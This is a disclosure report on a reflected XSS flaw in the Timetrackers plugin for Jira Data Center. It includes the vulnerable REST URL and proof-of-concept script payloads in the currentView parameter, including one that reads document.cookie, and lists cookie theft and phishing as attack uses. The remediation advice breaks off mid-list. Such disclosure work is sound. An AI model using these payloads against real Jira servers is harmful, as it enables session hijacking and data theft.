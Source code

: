 Vulnerability submitted by Shuning Xu

Supplier:https://www.atlassian.com/software/jira

Software download link: https://www.atlassian.com/software/jira/update

Affected software :jira software

Vulnerability plugin name: timetrackers - Time Tracking & Reporting for Jira

Vulnerability plugin Version: Version 5.2.0•Jira Data Center 9.0.0-9.10.1

Description :jira software download selected HOSTING TYPES to download the latest version of data center 9.10.1 locally to install the Timetracker plug-in. The Timetracker plug-in has XSS vulnerability, that is, cross-site scripting attack. The attacker inserts malicious JavaScript code into the web page (input form, URL, message board, etc.), causing the administrator/user to access the trigger, thus achieving the purpose of the attack. The essential reason is that the server is not strict in filtering the data submitted by the user, resulting in the browser treating the user's input as JS code and directly returning it to the client for execution. What appears here is reflected XSS. Attackers using reflected cross-site scripting attacks can steal cookies from users such as administrators, steal clipboard content, change web content (such as download links), and so on.

Test process:
1. After installing the plug-in timetrackers Time Tracking & Reporting for Jira, the paid plug-in needs to obtain a license and activate the plug-in.
Download address: the page/plugins/servlet/upm/marketplace/featured? source=side_nav_find_new_addons Enter the plug-in name. Timetrackers - Time Tracking & Reporting for Jira download

![image-xss1.1[Timetracker]](images/xss1.1[Timetracker].png)

Or download in the app store at https://marketplace.atlassian.com/apps/1211243/timetracker-time-tracking-reporting-for-jira?hosting=datacenter &tab=overview

![image-xss1.2[Timetracker]](images/xss1.2[Timetracker].png)

2. Navigate to the URL:
http://localhost:port/rest/jttp-rest/latest/calendar/change-date?date=1692611158671&worklogValues=%7B%22startTime%22%3A%22%22%2C%22endTime%22%3A%22%22%2C%22durationTime%22%3A%22%22%2C%22isDuration%22%3Atrue%2C%22comment%22%3A%22%22%2C%22issueKey%22%3A%5B%5D%2C%22period%22%3Afalse%7D&actionWorklogId=$actionWorklogId&editAll=&showMoveAllNoPermission=false&actionFlag=&changeDateType=picker&currentView=month&_=1692611161613

![image-xss1.3[Timetracker]](images/xss1.3[Timetracker].png)

3. Launch Burp Suite to capture network traffic. Use Burpsuite to capture and change packets for detection:
![image-xss1.4[Timetracker]](images/xss1.4[Timetracker].png)

4. Change the currentView parameter to <sCrIpT>alert(1)</sCrIpT> and send the modified url.

/rest/jttp-rest/latest/calendar/change-date?date=1692611158671&worklogValues=%7B%22startTime%22%3A%22%22%2C%22endTime%22%3A%22%22%2C%22durationTime%22%3A%22%22%2C%22isDuration%22%3Atrue%2C%22comment%22%3A%22%22%2C%22issueKey%22%3A%5B%5D%2C%22period%22%3Afalse%7D&actionWorklogId=$actionWorklogId&editAll=&showMoveAllNoPermission=false&actionFlag=&changeDateType=picker&currentView=<sCrIpT>alert(1)</sCrIpT>

Or change the currentView parameter to <sCrIpT>alert(document.cookie)</sCrIpT> and send the modified url.

/rest/jttp-rest/latest/calendar/change-date?date=1692611158671&worklogValues=%7B%22startTime%22%3A%22%22%2C%22endTime%22%3A%22%22%2C%22durationTime%22%3A%22%22%2C%22isDuration%22%3Atrue%2C%22comment%22%3A%22%22%2C%22issueKey%22%3A%5B%5D%2C%22period%22%3Afalse%7D&actionWorklogId=$actionWorklogId&editAll=&showMoveAllNoPermission=false&actionFlag=&changeDateType=picker&currentView=<sCrIpT>alert(document.cookie)</sCrIpT>

5. A pop-up window will appear on the web page, and an alarm box showing 1 will pop up, triggering XSS, indicating that there is cross-site vulnerability, recording the vulnerability, and stopping the test.

![image-xss1.5[Timetracker]](images/xss1.5[Timetracker].png)

A pop-up warning box showing cookies

![image-xss1.6[Timetracker]](images/xss1.6[Timetracker].png)

Attack steps:

1.Attackers create and test malicious URLs;

2.The attacker is sure that the victim loaded a malicious URL in the browser;

3.The attacker uses reflected cross-site scripting attacks to install keyloggers, steal victims' cookies, steal clipboard content, and change web page content (such as download links).

Attack method:

1. Use xss testing platform BlueLotus to steal cookies

2.Malicious links

3. Web phishing

4.Redirection implanted advertisement

Risk level: reflected cross-site presence in the application

Repair solution: 

For XSS cross-site vulnerabilities, the following repair methods can be used:

Overall fix: Validate all input data to effectively detect attacks; properly encode all output data to prevent any successfully injected scripts from running on the browser side. details as follows :

Input Validation: Validate the length, type, syntax, and business rules of all input data using standard input validation mechanisms before a certain data is accepted for display or storage.

Output encoding: Before data output, ensure that the data submitted by the user has been correctly encoded by entity. It is recommended to encode all characters instead of being limited to a certain subset.

Explicitly specify the encoding of the output: don't allow an attacker to choose an encoding (such as ISO 8859-1 or UTF 8) for your users.

Pay attention to the limitations of the blacklist verification method: just find or replace some characters (such as "<" ">" or keywords like "script"), it is easy to bypass the verification mechanism by XSS variant attacks.

Beware of normalization errors: Before validating input, it must be decoded and normalized to conform to the application's current internal representation. Make sure the application does not decode the same input twice. To filter the data submitted by the client, it is generally recommended to filter out special characters such as double quotes ("), angle brackets (<, >), or perform entity conversion on the special characters contained in the data submitted by the client, such as double quotes (") into its entity form &quot;, <corresponding entity form is &lt;, <corresponding entity form is&gt; The following are common characters to be filtered:

